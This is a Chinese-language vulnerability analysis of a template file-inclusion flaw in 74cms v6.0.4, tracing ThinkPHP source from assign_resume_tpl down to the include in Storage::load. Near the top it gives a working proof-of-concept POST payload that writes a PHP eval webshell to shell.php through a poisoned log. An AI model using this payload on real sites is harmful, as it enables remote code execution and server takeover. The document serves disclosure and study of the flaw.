

74cms v6.0.4存在文件包含getshell

地址：

```
http://localhost/index.php?m=home&a=assign_resume_tpl
```


poc：

```
post:

variable=1&tpl=<?php phpinfo();ob_flush();?><?php fputs(fopen("shell.php","w"),"<?php eval(/$_POST[x]);?>")?>; ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```


会产生日志/data/Runtime/Logs/Home/25_03_26.log


包含执行


代码分析：

定位--》74cms/Application/Common/Controller/BaseController.class.php

```
    public function assign_resume_tpl($variable,$tpl){
        foreach ($variable as $key => $value) {
            $this->assign($key,$value);
        }
        return $this->fetch($tpl);
    }
}
```

这里是一个渲染简历的地方，有两个函数assign  fetch 

```
  protected function assign($name,$value='') {
        $this->view->assign($name,$value);
        return $this;
    }
```

ThinkPHP\Library\Think\Controller.class.php，assign没有什么内容

```
 protected function fetch($templateFile='',$content='',$prefix='') {
        return $this->view->fetch($templateFile,$content,$prefix);
    }
```

ThinkPHP\Library\Think\Controller.class.php

之前传入的 `$tpl` 传到了fetch的第一个参数的位置，`$content`  `$prefix` 都为空，继续跟进

```
 public function fetch($templateFile='',$content='',$prefix='') {
        if(empty($content)) {
            $templateFile   =   $this->parseTemplate($templateFile);
            // 模板文件不存在直接返回
            if(!is_file($templateFile)) E(L('_TEMPLATE_NOT_EXIST_').':'.$templateFile);
        }else{
            defined('THEME_PATH') or    define('THEME_PATH', $this->getThemePath());
        }
        // 页面缓存
        ob_start();
        ob_implicit_flush(0);
        if('php' == strtolower(C('TMPL_ENGINE_TYPE'))) { // 使用PHP原生模板
            $_content   =   $content;
            // 模板阵列变量分解成为独立变量
            extract($this->tVar, EXTR_OVERWRITE);
            // 直接载入PHP模板
            empty($_content)?include $templateFile:eval('?>'.$_content);
        }else{
            // 视图解析标签
            $params = array('var'=>$this->tVar,'file'=>$templateFile,'content'=>$content,'prefix'=>$prefix);
            Hook::listen('view_parse',$params);
        }
        // 获取并清空缓存
        $content = ob_get_clean();
        // 内容过滤标签
        Hook::listen('view_filter',$content);
        // 输出模板文件
        return $content;
    }
```

74cms6.0.4/ThinkPHP/Library/Think/View.class.php

开始进入第一个判断：如果$content为空，进入到了parseTemplate

```
$templateFile = $this->parseTemplate($templateFile)
```

跟进parsetemplate

```
public function parseTemplate($template='') {
        if(is_file($template)) {
            return $template;
        }
        $depr       =   C('TMPL_FILE_DEPR');
        $template   =   str_replace(':', $depr, $template);

        // 获取当前模块
        $module   =  MODULE_NAME;
        if(strpos($template,'@')){ // 跨模块调用模版文件
            list($module,$template)  =   explode('@',$template);
        }
        // 获取当前主题的模版路径
        defined('THEME_PATH') or    define('THEME_PATH', $this->getThemePath($module));

        // 分析模板文件规则
        if('' == $template) {
            // 如果模板文件名为空 按照默认规则定位
            $template = CONTROLLER_NAME . $depr . ACTION_NAME;
        }elseif(false === strpos($template, $depr)){
            $template = CONTROLLER_NAME . $depr . $template;
        }
        $file   =   THEME_PATH.$template.C('TMPL_TEMPLATE_SUFFIX');
        if(C('TMPL_LOAD_DEFAULTTHEME') && THEME_NAME != C('DEFAULT_THEME') && !is_file($file)){
            // 找不到当前主题模板的时候定位默认主题中的模板
            $file   =   dirname(THEME_PATH).'/'.C('DEFAULT_THEME').'/'.$template.C('TMPL_TEMPLATE_SUFFIX');
        }
        return $file;
    }
```

首先会进行一个判断，如果传入的$template为文件，直接返回


尝试是否可以加载默认模板，可以则进行下一步。确认当前模板不是默认模板，然后将$template输入的不是文件的创建了一个新路径，文件不存在会在后缀拼接.html

返回fetch，发现下面代码做了一个比较

```
if('php' == strtolower(C('TMPL_ENGINE_TYPE'))) { // 使用PHP原生模板
            $_content   =   $content;
            // 模板阵列变量分解成为独立变量
            extract($this->tVar, EXTR_OVERWRITE);
            // 直接载入PHP模板
            empty($_content)?include $templateFile:eval('?>'.$_content);
```


默认为think，直接进入else部分

```
 }else{
            // 视图解析标签
            $params = array('var'=>$this->tVar,'file'=>$templateFile,'content'=>$content,'prefix'=>$prefix);
            Hook::listen('view_parse',$params);
        }
```

构建了一个数组，hook::listen触发view_parse事件

根据提供的事件标签 `$tag`，遍历并执行所有与该标签关联的回调函数。

跟进exec

```
    static public function exec($name, $tag,&$params=NULL) {
        if('Behavior' == substr($name,-8) ){
            // 行为扩展必须用run入口方法
            $tag    =   'run';
        }
        $addon   = new $name();
        return $addon->$tag($params);
    }
}
```

判断检查行为名称，如果包含 `Behavior` 字符串，那么入口就必须是run方法



监听的view_paese--那么入口必须是run方法

```
class ParseTemplateBehavior {

    // 行为扩展的执行入口必须是run
    public function run(&$_data){
        $engine             =   strtolower(C('TMPL_ENGINE_TYPE'));
        $_content           =   empty($_data['content'])?$_data['file']:$_data['content'];
        $_data['prefix']    =   !empty($_data['prefix'])?$_data['prefix']:C('TMPL_CACHE_PREFIX');
        if('think'==$engine){ // 采用Think模板引擎
            if((!empty($_data['content']) && $this->checkContentCache($_data['content'],$_data['prefix'])) 
                ||  $this->checkCache($_data['file'],$_data['prefix'])) { // 缓存有效
                //载入模版缓存文件
                Storage::load(C('CACHE_PATH').$_data['prefix'].md5($_content).C('TMPL_CACHFILE_SUFFIX'),$_data['var']);
            }else{
                $tpl = Think::instance('Think\\Template');
                // 编译并加载模板文件
                $tpl->fetch($_content,$_data['var'],$_data['prefix']);
            }
        }else{
            // 调用第三方模板引擎解析和输出
            if(strpos($engine,'\\')){
                $class  =   $engine;
            }else{
                $class   =  'Think\\Template\\Driver\\'.ucwords($engine);                
            }            
            if(class_exists($class)) {
                $tpl   =  new $class;
                $tpl->fetch($_content,$_data['var']);
            }else {  // 类没有定义
                E(L('_NOT_SUPPORT_').': ' . $class);
            }
        }
    }

```

如果 第一次进行模板解析（即没有缓存的情况），代码会进入 else 分支，之后执行fetch()方法

跟踪think\template的fetch方法

```
  public function fetch($templateFile,$templateVar,$prefix='') {
        $this->tVar         =   $templateVar;
        $templateCacheFile  =   $this->loadTemplate($templateFile,$prefix);
        Storage::load($templateCacheFile,$this->tVar,null,'tpl');
    }
```

跟进loadTemplate函数

```
public function loadTemplate ($templateFile,$prefix='') {
        if(is_file($templateFile)) {
            $this->templateFile    =  $templateFile;
            // 读取模板文件内容
            $tmplContent =  file_get_contents($templateFile);
        }else{
            $tmplContent =  $templateFile;
        }
         // 根据模版文件名定位缓存文件
        $tmplCacheFile = $this->config['cache_path'].$prefix.md5($templateFile).$this->config['cache_suffix'];

        // 判断是否启用布局
        if(C('LAYOUT_ON')) {
            if(false !== strpos($tmplContent,'{__NOLAYOUT__}')) { // 可以单独定义不使用布局
                $tmplContent = str_replace('{__NOLAYOUT__}','',$tmplContent);
            }else{ // 替换布局的主体内容
                $layoutFile  =  THEME_PATH.C('LAYOUT_NAME').$this->config['template_suffix'];
                // 检查布局文件
                if(!is_file($layoutFile)) {
                    E(L('_TEMPLATE_NOT_EXIST_').':'.$layoutFile);
                }
                $tmplContent = str_replace($this->config['layout_item'],$tmplContent,file_get_contents($layoutFile));
            }
        }
        // 编译模板内容
        $tmplContent =  $this->compiler($tmplContent);
        Storage::put($tmplCacheFile,trim($tmplContent),'tpl');
        return $tmplCacheFile;
    }
```

传入文件则直接输出，判断是否开启布局


默认为flase

直接进入else

```
        $tmplContent =  $this->compiler($tmplContent);
        Storage::put($tmplCacheFile,trim($tmplContent),'tpl');
        return $tmplCacheFile;
```

跟踪compiler

```
 protected function compiler($tmplContent) {
        //模板解析
        $tmplContent =  $this->parse($tmplContent);
        // 还原被替换的Literal标签
        $tmplContent =  preg_replace_callback('/<!--###literal(\d+)###-->/is', array($this, 'restoreLiteral'), $tmplContent);
        // 添加安全代码
        $tmplContent =  '<?php if (!defined(\'THINK_PATH\')) exit();?>'.$tmplContent;
        // 优化生成的php代码
        $tmplContent = str_replace('?><?php','',$tmplContent);
        // 模版编译过滤标签
        Hook::listen('template_filter',$tmplContent);
        return strip_whitespace($tmplContent);
    }
```

并无过滤，回到

```
  public function fetch($templateFile,$templateVar,$prefix='') {
        $this->tVar         =   $templateVar;
        $templateCacheFile  =   $this->loadTemplate($templateFile,$prefix);
        Storage::load($templateCacheFile,$this->tVar,null,'tpl');
    }
```

继续下一步，跟进load方法

```
 public function load($_filename,$vars=null){
        if(!is_null($vars)){
            extract($vars, EXTR_OVERWRITE);
        }
        include $_filename;
    }
```

这里存在文件包含

回顾：

1.assign_resume_tpl方法有俩参数（$variable,$tpl）

2.assign($variable) 无影响     fetch($tpl)跟进

3.fetch方法有三个参数 $templateFile='',$content='',$prefix='',这里传入了$tpl=$templateFile,后面则均为空

4.第一个逻辑判断，$content为空，$templateFile进入parseTemplate方法，parseTemplate方法定义是文件直接输出，文件不存在输出一个字符串

```
当前主题目录父目录/配置的默认主题名/模板名/后缀(.html)
```

返回fetch->如果不是文件，报错“模板不存在”，然后拼接路径。

5.进入下一个判断，查看是否使用PHP原生模板，MPL_ENGINE_TYPE=“think”，进入else，else创建了一个数组$params，仍然传入的是$templateFile，然后用hook的listen方法触发view_parse

6.跟进listen方法，$tag=view_parse

7.跟进exec，这里做判断'Behavior' == substr($name,-8） 行为类名=Behavior，$tag=run

8.回到view_parse，跟进

'view_parse'   =>  array('Behavior\ParseTemplateBehavior'）

这里则确定Behavior下使用run方法

9.跟进run方法，这里继续判断-模板引擎正确->进入语句，判断content是否为空，这里最初已经确定了为空，所以进入else

```
$tpl = Think::instance('Think\\Template');
$tpl->fetch($_content,$_data['var'],$_data['prefix']);
```

10.继续跟进

找到Think\\Template 下的fetch方法，发现直接调用了loadTemplate方法

11.进入loadtemplate方法，判断是否是文件，这里输出不是就直接输出了

```
$tmplContent=$templateFile
```

然后继续判断LAYOUT_ON，默认是no，进入else。这里继续跟进

12.compiler方法，这里并没有对文件内容做检测。$templateCacheFile=$templateFile

13.回到loadtemplate方法

```
Storage::load($templateCacheFile,$this->tVar,null,'tpl');
```

跟进这一段，这是加载并执行模板缓存文件的，跟进load

判断$vars=null,为空则包含$_filename，这里的$_filename=$templateCacheFile

所以在这个位置，不写入文件，通过写入恶意代码报错存储日志，然后包含产生了漏洞。(当然这里直接输出phpinfo是不行的。ob_start()开启了缓冲区，后续的echo.print,html内容不会直接回显，而是存在缓冲区。所以需要用ob_flush()刷新冲出缓冲区输出到浏览器)
